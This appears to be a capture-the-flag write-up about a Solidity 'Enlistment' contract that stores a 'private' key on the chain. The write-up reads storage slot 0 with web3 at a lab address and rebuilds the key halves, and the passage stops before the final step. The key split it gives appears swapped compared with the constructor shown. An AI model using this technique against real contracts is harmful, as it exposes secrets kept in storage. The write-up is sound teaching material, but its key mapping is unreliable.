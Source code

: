 ## The Vulnerability

### Smart Contract Code
```solidity
contract Enlistment {
    bytes16 public publicKey;
    bytes16 private privateKey;  // ❌ Vulnerable: not actually private!
    mapping(address => bool) public enlisted;
    
    constructor(bytes32 _key) {
        publicKey = bytes16(_key);           // First 16 bytes
        privateKey = bytes16(_key << (16*8)); // Last 16 bytes shifted
    }

    function enlist(bytes32 _proofHash) public {
        bool authorized = _proofHash == keccak256(abi.encodePacked(publicKey, privateKey));
        require(authorized, "Invalid proof hash");
        enlisted[msg.sender] = true;
    }
}
```

### The Flaw
The vulnerability stems from a fundamental blockchain misconception:
- Variables marked `private` in Solidity only restrict contract-to-contract access
- **All blockchain data is publicly readable** regardless of visibility modifiers
- The "private" key can be read directly from storage slots

## Solution

### Step 1: Storage Exploitation
Read the contract's storage to extract the original constructor key:

```python
from web3 import Web3

w3 = Web3(Web3.HTTPProvider("http://94.237.48.68:48556"))
storage = w3.eth.get_storage_at("0xFabD4DdC9d21515CEbc5bfcd1a815200b0e4651D", 0)
```

**Discovery:** Storage slot 0 contained the complete 32-byte original key:
```
Hex: 20204147454e5420502e202331333337454e4c4953545f52455153542062793a
String: "  AGENT P. #1337ENLIST_REQST by:"
```

### Step 2: Key Reconstruction
Applied the constructor logic to split the key correctly:

```python
# Constructor logic analysis:
# publicKey = bytes16(_key)           # First 16 bytes  
# privateKey = bytes16(_key << (16*8)) # Last 16 bytes after shift

public_key = storage[16:]   # Last 16 bytes: "ENLIST_REQST by:"
private_key = storage[:16]  # First 16 bytes: "  AGENT P. #1337"
```
